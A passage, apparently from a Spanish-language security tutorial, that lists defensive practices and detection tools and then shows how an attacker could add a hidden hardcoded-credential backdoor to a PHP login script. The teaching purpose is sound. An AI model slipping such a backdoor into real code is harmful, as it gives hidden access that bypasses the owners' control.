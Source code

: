- Usa **revisión de código (code review)**.
- Implementa **firmas digitales** en el software.
- Usa **autenticación segura** sin credenciales estáticas.
- Nunca incluyas contraseñas o cuentas de prueba en producción.
- Usa herramientas de detección como:

  - [Ghidra](https://ghidra-sre.org/)
  - [Radare2](https://rada.re/)
  - [Flawfinder](https://dwheeler.com/flawfinder/)
  - [Binwalk](https://github.com/ReFirmLabs/binwalk) (para firmware)

---

### 🧪 Ejemplo completo: Insertar una backdoor en una aplicación PHP

Supón que un sitio tiene este código de login en `login.php`:

```php
<?php
$user = $_POST['usuario'];
$pass = $_POST['clave'];

if ($user == "admin" && $pass == "admin123") {
    echo "Acceso permitido";
} else {
    echo "Acceso denegado";
}
?>
```

Un atacante con acceso al servidor podría modificar el código y **agregar una backdoor así**:

```php
<?php
$user = $_POST['usuario'];
$pass = $_POST['clave'];

// BACKDOOR hardcoded
if ($user == "root" && $pass == "toor") {
    echo "Acceso permitido como root oculto";
    exit();
}

if ($user == "admin" && $pass == "admin123") {
    echo "Acceso permitido";
} else {
    echo "Acceso denegado";
}
?>
```

⚠️ Esto permitiría a quien conozca la combinación `"root"` / `"toor"` acceder **sin dejar rastro en la lógica legítima**.

---